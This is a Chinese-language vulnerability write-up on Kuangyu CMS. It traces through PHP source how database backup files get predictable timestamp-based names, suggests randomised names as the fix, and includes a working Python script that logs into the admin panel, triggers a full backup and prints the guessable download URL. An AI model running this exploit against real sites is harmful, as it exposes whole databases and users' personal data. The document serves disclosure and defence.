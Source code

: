# 狂雨CMS数据库备份地址爆破

## 审计

`application/admin/controller/Database.php->export()`

```php
public function export($tables = null, $id = null, $start = null){
        if($this->request->isPost() && !empty($tables) && is_array($tables)){ //初始化
            ......

            //生成备份文件信息
            $file = [
                'name' => date('Ymd-His', time()),
                'part' => 1,
            ];

            ......

            //创建备份文件
            $Database = new Databasec($file, $config);
            if(false !== $Database->create()){
                $tab = ['id' => 0, 'start' => 0];
                $this->success('初始化成功！', '', ['tables' => $tables, 'tab' => $tab]);
            } else {
                $this->error('初始化失败，备份文件创建失败！');
            }

            ......

        } elseif ($this->request->isGet() && is_numeric($id) && is_numeric($start)) { //备份数据

            ......

        } else {
            $this->error('请指定要备份的表！');
        }
    }
```

跟进`Databasec`类

`extend/databasec/Databasec.php->create()`

```php
public function __construct($file, $config, $type = 'export'){
        $this->file   = $file;
        $this->config = $config;
    }
```

```php
public function create(){
        $sql  = "-- -----------------------------\n";
        $sql .= "-- Think MySQL Data Transfer \n";
        $sql .= "-- \n";
        $sql .= "-- Host     : " . config('database.hostname') . "\n";
        $sql .= "-- Port     : " . config('database.hostport') . "\n";
        $sql .= "-- Database : " . config('database.database') . "\n";
        $sql .= "-- \n";
        $sql .= "-- Part : #{$this->file['part']}\n";
        $sql .= "-- Date : " . date("Y-m-d H:i:s") . "\n";
        $sql .= "-- -----------------------------\n\n";
        $sql .= "SET FOREIGN_KEY_CHECKS = 0;\n\n";
        return $this->write($sql);
    }
```

继续跟进`write`函数

`extend/databasec/Databasec.php->write()`

```php
private function write($sql){
        $size = strlen($sql);

        //由于压缩原因，无法计算出压缩后的长度，这里假设压缩率为50%，
        //一般情况压缩率都会高于50%；
        $size = $this->config['compress'] ? $size / 2 : $size;

        $this->open($size);

        return $this->config['compress'] ? @gzwrite($this->fp, $sql) : @fwrite($this->fp, $sql);
    }
```

跟进`open`函数

`extend/databasec/Databasec.php->open()`

```php
private function open($size){
        if($this->fp){
            $this->size += $size;
            if($this->size > $this->config['part']){
                $this->config['compress'] ? @gzclose($this->fp) : @fclose($this->fp);
                $this->fp = null;
                $this->file['part']++;
                session('backup_file', $this->file);
                $this->create();
            }
        } else {
            $backuppath = $this->config['path'];
            $filename   = "{$backuppath}{$this->file['name']}-{$this->file['part']}.sql";
            if($this->config['compress']){
                $filename = "{$filename}.gz";
                $this->fp = @gzopen($filename, "a{$this->config['level']}");
            } else {
                $this->fp = @fopen($filename, 'a');
            }
            $this->size = filesize($filename) + $size;
        }
    }
```

可以看到文件名由`file['name']`+`-`+`file['part']`+`.sql(.gz)`组成，`name`是格式化后的time，`part`为1，因此可直接爆破文件名，从而泄露数据库

### 防御方法

利用随机数生成文件名，然后发送邮件至管理员邮箱或发送短信至手机，增加爆破难度

## 漏洞复现

后台可以直接备份数据库，备份后为.sql.gz文件(可以在设置里更改是否压缩)，文件名为time函数生成的时间戳，可直接爆破进行下载，这里先附上exp(因为不会进行验证码的识别，所以修改了代码将验证部分注释掉了，师傅们见谅~)

Python爆破脚本

```python
# !/usr/bin/python3
# -*- coding:utf-8 -*-
# author: Forthrglory
import requests
import time

def getDatabase(url,username, password):
    session = requests.session()

    u = 'http://%s/admin/index/login.html' % (url)
    head = {
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'
    }
    data = {
        'username': username,
        'password': password,
        'code': 1
    }
    session.post(u, data, headers = head)

    u = 'http://%s/admin/database/export.html' % (url)
    data = {
        'layTableCheckbox':'on',
        'tables[0]':'ky_ad',
        'tables[1]':'ky_addons',
        'tables[2]':'ky_bookshelf',
        'tables[3]':'ky_category',
        'tables[4]':'ky_collect',
        'tables[5]':'ky_comment',
        'tables[6]':'ky_config',
        'tables[7]':'ky_crontab',
        'tables[8]':'ky_link',
        'tables[9]':'ky_member',
        'tables[10]':'ky_menu',
        'tables[11]':'ky_news',
        'tables[12]':'ky_novel',
        'tables[13]':'ky_novel_chapter',
        'tables[14]':'ky_route',
        'tables[15]':'ky_slider',
        'tables[16]':'ky_template',
        'tables[17]':'ky_user',
        'tables[18]':'ky_user_menu'
    }
    t = time.strftime("%Y%m%d-%H%M%S", time.localtime())

    session.post(u, data = data)

    for i in range(0, 19):
        u2 = 'http://%s/admin/database/export.html?id=%s&start=0' % (url, str(i))
        session.get(u2)

    t = 'http://' + url + '/public/database/' + t + '-1.sql.gz'
    return t

if __name__ == '__main__':
    u = '127.0.0.1'
    username = 'admin'
    password = 'admin'
    t = getDatabase(u, username, password)
    print(t)
```

运行代码，得到路径(默认生成路径为/public/database/，可在设置中修改)

![2Z9dpibMEs1PUcB](resource/狂雨CMS数据库备份地址爆破/media/2Z9dpibMEs1PUcB.png)

直接访问下载

![kxcNeHhSqviyfpR](resource/狂雨CMS数据库备份地址爆破/media/kxcNeHhSqviyfpR.png)

可以看到所有数据库信息全在了

![p2VETuFUze3lDZS](resource/狂雨CMS数据库备份地址爆破/media/p2VETuFUze3lDZS.png)

## 参考

https://www.cnblogs.com/0daybug/p/12624364.html
